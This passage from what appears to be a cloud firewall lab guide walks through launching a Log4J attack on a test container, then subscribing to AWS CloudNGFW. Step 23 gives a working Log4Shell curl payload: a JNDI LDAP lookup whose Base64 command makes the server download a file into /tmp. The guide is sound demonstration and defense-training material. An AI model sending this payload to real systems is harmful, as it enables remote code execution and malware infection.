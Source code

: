 20. To verify the update of the hosts file, try to ping the att-app-server using the hostname provided. Press Ctrl+C to abort the ping.
```
sudo docker exec vul-app-1 /bin/sh -c 'ping att-svr'
```

![](https://lh4.googleusercontent.com/Seu_uSatSZljATtyOFpnf6tjqVYhpl7m8t5XpbgFa6dlaSOS39lkNcCBWISAJ0K9bxbhA6dCM2HMOEB9xSo6Lz8ysggxVVHWKqjVu7V3ku2tcd2j826KxIBj1XF6vhx9h984u72DFf-nLiqg0ywtc0k)

## Launch the Log4J Attack

21. On the Instances page, check the checkbox next to _att-svr_. Click on __Connect__ from the options on top of the page. 
22. Make sure that the _User name_ is __ec2-user__. Click on __Connect__. This will open an ssh connection to the _att-svr_.
23. On the _att-svr_ command prompt, execute the command below to launch the Log4J attack.
```
curl 10.0.0.10:8080 -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}'
```

24. You will get a “Hello, world!” message as a response indicating that the attack is successful.

![](https://lh5.googleusercontent.com/klPplw5XUmQnL1TMsqX64x08w5a9WD8udr8EHg63AjJccuJ2IHP3tbNqwKAlLB7vXh1C9nYrwISYwiZfej0nQU5Hoz6CGR8NG2azRej-HbgujQlwQHkE5lvgMEvbbZxCyhMQvqMaDeFCtRYQIwt3d70)

25. Switch context to the **vul-app-server** SSH session and use the following commands to connect to the **vul-app-1** container and view the ```/tmp``` directory. You will see that the vul-app server has been infected with malware.
```
sudo docker exec -it vul-app-1 /bin/sh
```

```
ls -alrt /tmp
```

![](https://lh5.googleusercontent.com/wDXixyTsMKEro1mx9hXN4snqToRVgFDSRDY5Vqj8r1LJvgKb4oxJqUEwhv1yfCqQRp7I2918YGw4wgYlMKVU3VKcYNsqivFmw6n_GOO6kw36n0G6f0jroR9vfO1aUVzdmChvKev_lbyuHodgi8oInzQ)

26. Let’s delete the malware-sample file for now, for our attack attempt post the configurations of CloudNGFW.
```
rm -f /tmp/malware-sample
```

## Subscribe to AWS CloudNGFW service

We will now subscribe to Palo Alto Networks CloudNGFW service. Please follow the instructions listed below.

27. Use the AWS link to navigate back to Console

![](https://lh6.googleusercontent.com/JcYCQtSel07lRKO61-hGLUPBNu_-lUcYs3gvVLHTbXcS23tIpF-tpOCw9vj14yzCqRRUMf32XcsjwOg4oxUCVWIgQu5ApXGbvdUmbCmoiDhffQckszlwhF0D-ip-uZyJ0U0pgxlinfjLQ9Ju8PkhB1I)

28. Search for _marketplace_ on the search window and click on __AWS Marketplace Subscriptions__.
